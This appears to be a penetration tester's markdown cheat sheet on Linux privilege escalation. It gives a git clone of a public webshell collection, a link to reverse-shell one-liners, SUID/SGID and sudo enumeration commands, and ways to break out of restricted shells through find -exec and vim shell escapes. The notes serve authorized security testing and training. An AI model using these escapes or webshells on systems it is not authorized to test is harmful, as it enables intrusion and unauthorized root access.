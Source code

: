 Side note: 
check for /bin/dash
Bash likes to drop setuid permissions but Dash will not

## Repo of shells you can upload 
https://github.com/tennc/webshell
```
git clone https://github.com/tennc/webshell.git
```
## More Reverse Shells
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


# Search for Commands that run as Root:
## list all programs this account has sudo access to
```
sudo -l
```

## find all files with SUID & SGID set
```
find . -perm /2000 
find / -perm -4000 -o -perm -2000
find / -perm -u=s -type f 2>/dev/null
find / -perm /6000
find / -perm /6001   
```


## Restricted Shells: rbash, rksh, rzsh, lshell and rssh
1. try ls, cd, pwd, echo commands [if these commands are restricted, 
   an error will show up with the type of restricted shell we are in (most of the time, this is rbash)]
2. press tab twice to see what commands are available.
  a. if "ls" is avaiable list binaries in /bin, /usr/bin, /usr/local/bin
  b. echo /usr/bin/*  [use globbing to list directory contents]
  c. important to check for operators and escape characters such as the following:
  ```
     > >> < | & ; : ' " `
  ```
3. Try commands wrapped
```
(whoami)
{whoami}
```

## Shell Execution:
```
find /home -exec sh -i \;
```
## use text editors vim, vi, nano, pico, ed
```
:!/bin/sh, !/bin/zsh, try other shells!?!?
:shell
:set shell=/bin/sh
:set shell=/bin/bash:shell
:!bash
```
